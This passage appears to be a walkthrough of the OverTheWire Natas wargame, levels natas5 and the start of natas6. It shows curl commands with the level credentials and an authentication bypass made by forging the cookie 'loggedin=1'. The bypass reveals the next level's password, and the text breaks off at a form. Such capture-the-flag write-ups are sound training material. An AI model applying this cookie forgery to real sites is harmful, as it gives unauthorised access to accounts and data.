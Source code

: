 	   	<div id="viewsource"><a href="index.php">Refresh page</a></div>
	   	</div>
	   	...
natas5:
	1. Visit http://natas5.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
	4. $ curl http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
		...
		<div id="content">
		Access disallowed. You are not logged in</div>
		...
	5. $ curl -v http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
		> GET / HTTP/1.1
		> Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
		> User-Agent: curl/7.37.1
		> Host: natas5.natas.labs.overthewire.org
		> Accept: */*
		>
		< HTTP/1.1 200 OK
		< Date: Thu, 16 Jul 2015 16:18:33 GMT
		* Server Apache/2.4.7 (Ubuntu) is not blacklisted
		< Server: Apache/2.4.7 (Ubuntu)
		< X-Powered-By: PHP/5.5.9-1ubuntu4.11
		< Set-Cookie: loggedin=0
		< Vary: Accept-Encoding
		< Content-Length: 855
		< Content-Type: text/html
		<
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
		<body>
		<h1>natas5</h1>
		<div id="content">
		Access disallowed. You are not logged in</div>
		</body>
		</html>
	6. Set-Cookie: loggedin=0 .. let's override this!
	   $ curl -b "loggedin=1" http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
	   	...
	   	<div id="content">
	   	Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
	   	...
natas6:
	1. Visit http://natas6.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
	4. $ curl http://natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1@natas6.natas.labs.overthewire.org
		...
		<div id="content">
			<form method=post>
				Input secret: <input name=secret><br>
				<input type=submit name=submit>